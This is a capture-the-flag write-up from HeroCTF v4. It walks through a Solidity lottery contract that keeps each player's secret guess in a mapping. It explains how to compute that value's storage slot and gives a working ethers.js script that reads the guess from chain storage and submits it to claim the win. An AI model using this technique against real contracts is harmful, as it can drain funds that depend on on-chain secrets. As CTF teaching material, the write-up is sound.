 ```yaml
---
slug: /articles/they-always-think-they-got-it
title: They always think they got it
date: 30/05/2022
category: Blockchain
thumbnail: thumbnail.png
description: Computation of the slot number used to store our guess number in the contract's storage
author: Elf
ctf: HeroCTF v4
---
```


# They always think they got it

> Imagine that. Someone comes up to you in the street, and tells you <br>
> <em>"Give me 10\$, and guess my number. If you do, I give you 1000000\$"</em><br>
> Now the risk reward is pretty ridiculous, but so are your chances of winning.<br>
> Well it's the exact same here. Or is it ? Can you read thoughts ?

We start with a Solitidy smart contract we can ask to deploy to an address on the custom Ethereum like blockchain of the CTF. We also have a verify button used to check if we've won the lottery and give us the flag if we do.

```solidity
pragma solidity ^0.8.10;

contract onChainLotterySecuredx20000
{
   /*
    Ok, so everyone wants this "super onChain PRNG". I think i might've found a way
    */ 
    bool hasWon = false;
    mapping (address => uint256) secured_HasH2GueSs;

    constructor () payable {}

    function getPrizePool() external view returns (uint256)
    {
        return address(this).balance;
    }

    function setupMaHash() external
    {
        require(secured_HasH2GueSs[msg.sender] == 0, "Already played, think i'm a fool ?");
        uint256 shuffler = block.timestamp % 25;
        uint256 val = uint256(blockhash(block.number - shuffler)) % block.gaslimit
                      + gasleft();

        secured_HasH2GueSs[msg.sender] = val;
    }

    function trynaGuessMyhash(uint256 guessed) external
    {
        require(secured_HasH2GueSs[msg.sender] != 0, "Really...");
        require(secured_HasH2GueSs[msg.sender] == guessed);
        hasWon = true;

    }

    function verify() external view returns (bool)
    {
        return hasWon;
    }
}
```

We can only call once the `setupMaHash` function of the contract to generate our attributed guess numer. The PRNG used to compute the number itself seems pretty complicated, predicting it musn't be the purpose of this challenge.

However, recall that **everything is public on the blockchain**. We can see any value stored in the storage of any contract. We just have to know the slot of what we want to read.

As our guess number is stored in a slot of the contract's storage, and because we know the contract is written in Solidity, we can apply [Solidity's storage layout convention](https://docs.soliditylang.org/en/v0.8.13/internals/layout_in_storage.html) to know exactly what is the slot attributed to our guess.

All types except dynamically sized arrays and mappings are stored contiguously, one after the other, starting at slot 0.

Mappings and dynamically sized arrays, because their size is not fixed, are stored differently. For the mappings, which is what we're interested in for this challenge, a slot is still reserved as if the mapping was a fixed size type, but nothing is stored in this slot (the value stored here remains the default value 0).<br>
The real values in the mapping are stored using the following formula:

```
keccak256(h(k) . p)
```

Where keccak256 is a hash function of the SHA3 family, `k` is the key associated to the value, `h` is a function that pads the value to 32 bytes, `.` is the concatenation and `p` is the contiguous slot number that has been reserved for the mapping.

Because the mapping is the second variable defined in the contract, we know its reserved slot will be `1`. We also know the key of our guess number, that will be our address. We have all the informations needed to compute the slot of our guess number.

I automated the process in JavaScript with the [Ethers](https://docs.ethers.io/v5/) library.

```js
(async () => {
    const provider = new ethers.providers.Web3Provider(window.ethereum)
    await provider.send("eth_requestAccounts", []);
    const signer = provider.getSigner()

    const myAddress = "0x8112593a39Ca3a18223805e19CcFc1937f2E25c0" // feel free to send me ETH if you want to, it's my real Ethereum address :))

    // just copy paste the contract source code to Remix to retrieve its ABI
    const abi = [
        {
            "inputs": [],
            "name": "setupMaHash",
            "outputs": [],
            "stateMutability": "nonpayable",
            "type": "function"
        },
        {
            "inputs": [
                {
                    "internalType": "uint256",
                    "name": "guessed",
                    "type": "uint256"
                }
            ],
            "name": "trynaGuessMyhash",
            "outputs": [],
            "stateMutability": "nonpayable",
            "type": "function"
        },
        {
            "inputs": [],
            "stateMutability": "payable",
            "type": "constructor"
        },
        {
            "inputs": [],
            "name": "getPrizePool",
            "outputs": [
                {
                    "internalType": "uint256",
                    "name": "",
                    "type": "uint256"
                }
            ],
            "stateMutability": "view",
            "type": "function"
        },
        {
            "inputs": [],
            "name": "verify",
            "outputs": [
                {
                    "internalType": "bool",
                    "name": "",
                    "type": "bool"
                }
            ],
            "stateMutability": "view",
            "type": "function"
        }
    ]

    const contractAddress = "0x1D54b1Bb1e059cCE055d53eA62cdb096c79FFD7b"
    const contract = new ethers.Contract(contractAddress, abi, provider)
    const contractWithSigner = contract.connect(signer)

    try {
        const tx = await contractWithSigner.setupMaHash()
        console.log("Waiting for the hash setup transaction to complete...")
        await tx.wait()
    }
    catch {
        console.log("Hash already setup")
    }

    const myPaddedAddress = "0x" + "0".repeat(66 - myAddress.length) + myAddress.slice(2)
    const slot = "0".repeat(63) + "1"
    const myGuessAddress = ethers.utils.keccak256(myPaddedAddress + slot)

    const guess = parseInt(await provider.getStorageAt(contractAddress, myGuessAddress), 16)

    console.log("The guess is", guess)

    const tx = await contractWithSigner.trynaGuessMyhash(guess)
    console.log("Waiting for the unlock transaction to complete...")
    await tx.wait()

    console.log("Contract unlocked!")
})()
```

All we have to do is run this script in our browser with Metamask installed and configured for the CTF's custom blockchain (I was lazy and delegated the transactions and signatures stuff to Metamask instead of messing with Python's web3 library to do these things 100% from code).

We click on the verify button on the website and get the flag:

![](output.png)

Flag: `Hero{keccack256(Nath_The_Menace_2_Society}`